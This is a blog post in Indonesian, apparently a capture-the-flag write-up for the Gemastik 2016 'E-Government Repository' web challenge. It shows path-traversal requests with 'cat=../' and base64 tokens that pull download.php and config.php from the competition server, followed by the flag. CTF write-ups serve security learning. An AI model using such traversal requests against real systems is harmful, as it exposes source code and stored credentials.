 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : E-Government Repository - 75"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: Web Exploitation
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![E-Government Repository](/images/egovernment-repository.png)


### Solusi :

Vulnerability terletak pada file download.php yang memungkinkan kita untuk mendownload file .php nya sendiri.
untuk mendownload file di butuhkan 3 parameter.

`file=NAMAFILE` , `token=BASE64(NAMAFILE)` , `cat=DIREKTORI`

jadi untuk mendownload file download.php kita sesuaikan 3 parameter tersebut.

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../)

kemudian download file `config.php`

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../)

**Flag : ** `GEMASTIK{The_Panama_Papers_are_the_largest_data_leak_and_caused_by_LFI}`


